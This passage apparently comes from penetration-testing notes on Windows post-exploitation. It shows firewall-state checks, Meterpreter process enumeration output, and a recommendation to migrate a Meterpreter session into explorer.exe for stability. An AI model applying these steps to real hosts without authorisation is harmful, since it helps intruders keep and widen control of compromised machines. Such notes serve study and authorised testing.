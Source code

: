 ```bash
  UDP    [::]:3389         *:*                            1872
  UDP    [::]:4500         *:*                            892
  UDP    [::]:5355         *:*                            1016
```

- **Win Firewall** state

```powershell
netsh firewall show state

netsh advfirewall show allprofiles
    An error occurred while attempting to contact the  Windows Firewall service.
	Make sure that the service is running and try your request again.

# Win Firewall is disabled
```

### Processes & Services

- Enumerate all **running processes**, from a `Meterpreter` session

```powershell
ps
```

```bash
Process List
============

 PID   PPID  Name               Arch  Session  User                         Path
 ---   ----  ----               ----  -------  ----							----
 0     0     [System Process]
 4     0     System             x64   0
 56    656   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE C:\Windows\System32\svchost.exe
 348   4     smss.exe           x64   0
 496   488   csrss.exe          x64   0
 560   552   csrss.exe          x64   1
 568   488   wininit.exe        x64   0        NT AUTHORITY\SYSTEM          C:\Windows\System32\wininit.exe
 596   552   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM          C:\Windows\System32\winlogon.exe
[...]

# "User" collumn is important
```

- **Process migration** is recommended to obtain a stable `Meterpreter session`

```powershell
pgrep explorer.exe

migrate <PROCESS_ID>
```
